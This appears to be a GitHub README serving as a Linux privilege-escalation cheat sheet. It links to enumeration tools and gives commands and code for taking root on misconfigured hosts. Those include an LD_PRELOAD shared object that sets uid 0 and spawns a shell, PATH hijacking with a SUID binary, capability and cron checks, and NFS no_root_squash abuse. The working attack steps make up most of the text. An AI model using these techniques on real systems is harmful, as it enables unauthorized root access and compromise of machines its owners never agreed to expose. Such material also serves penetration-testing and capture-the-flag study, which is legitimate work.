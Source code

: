 # Privilege-Escalation
Bypass security restrictions in misconfigured systems.
List of Tools and Repositories 👇🏻

## For Linux

***LinPeas*** - https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS

***LinEnum*** - https://github.com/rebootuser/LinEnum

***LES (Linux Exploit Suggester)*** - https://github.com/mzet-/linux-exploit-suggester

***Linux Smart Enumeration*** - https://github.com/diego-treitos/linux-smart-enumeration

***Linux Priv Checker*** - https://github.com/linted/linuxprivchecker 

***GTFOBins*** - https://gtfobins.github.io/ ⭐

***To list all the files which have SUID and SGID bits set***
```
find / -type f -perm -04000 -ls 2>/dev/null
```

###### ***Using LD_Preload***
> This piece of code will spawn root shell ➡️ [shell.c](https://github.com/Somchandra17/Privilege-Escalation/blob/01f889492ff51414fa077a01fa538ecd5a0d4543/shell.c)
```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```
> Compile it using GCC into a Shared Object file(.so)
```
gcc -fPIC -shared -o shell.so shell.c -nostartfile
```
> Run it by using LD_Preload option  
```
sudo LD_PRELOAD=/home/user/ldpreload/shell.so find
```
***Linux Privilege Escalation exploiting Sudo Rights — Part I*** - https://medium.com/schkn/linux-privilege-escalation-using-text-editors-and-files-part-1-a8373396708d

***Abusing 'find', 'vim' and 'awk' for root access*** - https://www.andreafortuna.org/2018/05/16/exploiting-sudo-for-linux-privilege-escalation/

###### ***Through Capabilities***
> List all enabled Capabilities
```
getcap -r / 2>/dev/null
```
> If you find any set capabilities then use GTFOBins and search your Binary name - https://gtfobins.github.io/#+capabilities

###### ***Cron job configurations***
> Anyone can read the file cron jobs under 👇🏻
```
/etc/crontab
```
###### ***Using $PATH***
> list the PATH by ``echo $PATH``

> find for writable path ``find / -writable 2>/dev/null`` or clean the out put using -> `` find / -writable 2>/dev/null | cut -d "/" -f2 | sort -u ``

> If able to modify the $PATH then ``export PATH=/DIR:$PATH`` (make sure to change the DIR)

now we have the required directory listed in out $PATH then we can just create a Script to exploit it 

For example 👉🏻 [path.c](path.c).
Now compile it using gcc ``gcc path.c -o shell``. OR you can also use python3 file [path.py](path.py) just run it as executable not as python3 file.py

After compiling set the SUID bit ``chmod u+s shell``

Now, go into the directory whichever you have added to $PATH and create a executable file ``echo "/bin/bash" > tobeX ``
give it executable rights ``chmod 777 tobeX ``

Final Step ->  Just run script that we have created  ``./shell``. Boom!

###### ***Network File Share***
> The list of all the fielsystems which may be exported is present in `/etc/exports`.


> Check for `no_root_squash`.

> By using `showmount` you can see the mountable shares in your attack machine. 


> Then just mount the shared to your attack machine by 👉🏻 `mount -o rw {ip of target}:{mountable dir} /{dir of ur attack machine}`


> Just create a executable with SUID bit set in that folder which can run /bin/bash on the target system check this * for example 


> Just compile it and run it from the target system.
